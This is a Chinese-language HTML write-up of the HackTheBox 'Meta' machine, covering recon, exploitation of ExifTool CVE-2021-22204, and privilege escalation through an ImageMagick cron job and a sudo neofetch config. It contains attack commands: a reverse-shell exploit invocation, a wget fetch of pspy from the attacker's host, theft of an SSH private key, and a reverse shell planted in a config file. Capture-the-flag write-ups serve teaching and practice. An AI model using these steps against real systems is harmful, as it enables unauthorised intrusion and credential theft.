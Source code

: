   </head>
  <body>
    <h1><a title="Meta-Writeup">Meta-Writeup</a></h1>
    <h2><time>2022-02-18</time></h2>
<h3 id="普通用户">普通用户</h3>

<p>给到了ip，常规nmap扫一下</p>

<pre><code class="language-HTML">nmap -sS -A -sC -sV -p- --min-rate 5000 10.10.11.140</code></pre>
<p><img src="..\images\Meta\nmap.jpg" alt="nmap" /></p>
<p>可以看到一个22端口和80端口，我们修改hosts文件访问artcorp.htb</p>
<img src=".\Meta\hosts.png" alt="hosts">
<img src=".\Meta\artcorp.png" alt="artcorp.png">
<p>页面看起来没啥，dirsearch,rad啥的都跑了一遍没啥发现。对子域名fuzz一下</p>
<pre><code class="language-HTML">wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.artcorp.htb" --hc 400,302,301 artcorp.htb</code></pre>
<p><img src=".\Meta\Fuzz.jpg" alt="Fuzz" /></p>
<p>发现有一个子域dev01,加到hosts里面再访问一下</p>
<img src=".\Meta\dev01.png" alt="dev01">
<p>发现是一个图片上传点,上传一个普通图片之后发现这个是exiftool,看看有无漏洞</p>
<pre><code class="language-HTML">searchsploit exiftool</code></pre>

<p>发现一个pdf，在浏览器中查看一下是CVE-2021-22204<del>(原理我就不说了,想了解的自行百度一下吧)</del>。去Git找一下exp : https://github.com/AssassinUKG/CVE-2021-22204</p>

<p>找一个正常图片放到exp目录运行一下</p>
<pre><code class="language-HTML">./CVE-2021-22204.sh "reverseme YourIP YourPort" 图片</code></pre>
<img src=".\Meta\exiftool.png" alt="exiftool">
<p>nc监听一下本地端口，然后上传图片,收到shell,用python换一下shell</p>
<pre><code class="language-HTML">python3 -c 'import pty;pty.spawn("/bin/bash")'</code></pre>
<img src=".\Meta\shell.png" alt="shell">
<p><code>cat /etc/passwd|grep bash</code>查看用户。可以看到thomas下面有user.txt但是读取不了。</p>
<img src=".\Meta\testgetflag.png" alt="test">
<p>首先使用pspy32尝试监控内存看看是否有异常，首先我们在我们这开一个HTTP<code>python3 -m http.server</code>在nc反弹的shell那用<code>wget http://yourip:yourport/pspy32</code>获取pspy32后赋予权限运行</p>
<img src=".\Meta\mogrify.png" alt="mo">
<p>可以看到有一个具有thomas权限的定时任务，查看一下<code>cat /usr/local/bin/convert_images.sh</code></p>

<script>
(function () {
  var headings = document.querySelectorAll('h1,h2,h3,h4');
  for (var i = 0; i < headings.length; i++) {
    var e = headings[i];
    if (e.id) {
      var link = document.createElement('a');
      link.classList.add('anchor');
      link.href = '#' + e.id;
      e.appendChild(document.createTextNode(' '));
      link.appendChild(document.createTextNode('\u00b6'));
      e.appendChild(link);
    }
  }
})();
</script>
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
    artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh 
    #!/bin/bash
    cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
    pkill mogrify
  </body>
<p>意思就是在convert_images下面定时运行mogrify。注:mogrify是ImageMagick的一个命令。</p>
<p>我们寻找一下ImageMagick可用的漏洞https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html</p>
<img src=".\Meta\poc.png" alt="poc">
<p>这里可以看到poc，稍微修改下,再下载</p>
<img src=".\Meta\wait.png" alt="wait">
<p>首先这里可以直接尝试获取<code>/home/thomas/user.txt</code>的内容，我这里选择先获取ssh的私钥，放在<code>/dev/shm/</code>下面是因为shm是临时存放文件的地方，不在硬盘上在内存上，而我们不知道<code>thomas</code>的权限所能写的文件夹是哪些，所以默认选择shm这个文件夹。等待一会。。。。</p>
<img src=".\Meta\id.png" alt="id">
<p>可以看到获取到了私钥，我们用同样的办法获取一下<code>authorized_keys</code>将其复制到自己的公钥文件中，即可使用私钥ssh连接getflag。<del>具体原理百度吧</del></p>
<pre><code>ssh thomas@10.10.11.140 -i /root/.ssh/id_rsa</code></pre>
<img src=".\Meta\thomasflag.png" alt="thomas">
<h3 id="普通用户">提权</h3>
<p>看一下<code>sudo -l</code></p>
<img src=".\Meta\sudo.png" alt="sudo">
<p>看到可以允许neofetch这个命令在不需要密码的情况下运行(不加参数)。</p>
<p>https://www.tecmint.com/neofetch-shows-linux-system-information-with-logo/</p>
<p>通过上面可知neofetch能在终端显示你的系统信息及系统logo，它拥有一个配置文件，配置文件可以写入bash命令并执行</p>
<p>我们尝试在config文件里面写入反弹shell的bash</p>
<img src=".\Meta\bashneo.png" alt="neo">
<p>保存退出后修改一下<code>XDG_CONFIG_HOME</code>让以sudo执行时能使用到我们更改的config文件</p>
<code>export XDG_CONFIG_HOME=/home/thomas/.config</code>
<p></p>
<p>注:<code>XDG_CONFIG_HOME</code>是程序在执行时默认读取配置文件的位置，如果没有的话则默认为<code>{$HOME}/.config</code>如果以sudo执行的话默认HOME的位置是root的HOME，所以无法读取到我们修改的config文件</p>
<p>在本机开个监听端口，执行<code>sudo neofetch</code>获得反弹的shell <strong>getflag</strong></p>
<img src=".\Meta\rootflag.png" alt="rootflag">

